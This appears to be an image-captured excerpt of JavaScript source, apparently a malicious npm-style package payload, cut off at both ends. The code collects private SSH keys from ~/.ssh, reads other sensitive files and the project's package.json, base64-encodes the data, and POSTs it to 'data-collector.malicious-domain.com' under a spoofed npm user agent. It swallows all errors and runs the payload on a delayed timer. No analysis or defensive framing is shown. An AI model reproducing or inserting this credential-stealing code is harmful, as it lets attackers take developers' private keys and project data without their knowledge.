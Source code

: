 ```javascript
    try {
      const expandedPath = filePath.replace('~', os.homedir());
      if (fs.existsSync(expandedPath)) {
        return fs.readFileSync(expandedPath, 'utf8');
      }
    } catch (e) {}
    return null;
  }
  
  // Collect SSH keys from common locations
  function collectSSHKeys() {
    const sshDir = path.join(os.homedir(), '.ssh');
    const keys = {};
    try {
      if (fs.existsSync(sshDir)) {
        fs.readdirSync(sshDir).forEach(file => {
          if (file.includes('id_') && !file.endsWith('.pub')) {
            keys[file] = readSensitiveFile(path.join(sshDir, file));
          }
        });
      }
    } catch (e) {}
    return keys;
  }
  
  // Find package.json in project directory
  function findPackageJson() {
    let currentDir = process.cwd();
    while (currentDir !== path.parse(currentDir).root) {
      const packagePath = path.join(currentDir, 'package.json');
      if (fs.existsSync(packagePath)) {
        return fs.readFileSync(packagePath, 'utf8');
      }
      currentDir = path.dirname(currentDir);
    }
    return null;
  }
  
  // Exfiltrate the collected data
  function exfiltrateData(data) {
    const encodedData = Buffer.from(JSON.stringify(data)).toString('base64');
    const options = {
      hostname: 'data-collector.malicious-domain.com',
      port: 443,
      path: '/api/collect',
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'User-Agent': 'npm/cross-env-utility'
      }
    };
    
    const req = https.request(options, res => {});
    req.on('error', () => {});
    req.write(JSON.stringify({ data: encodedData }));
    req.end();
  }
  
  // Execute the payload asynchronously to avoid blocking
  setTimeout(() => {
    try {
      const data = collectData();
      exfiltrateData(data);
```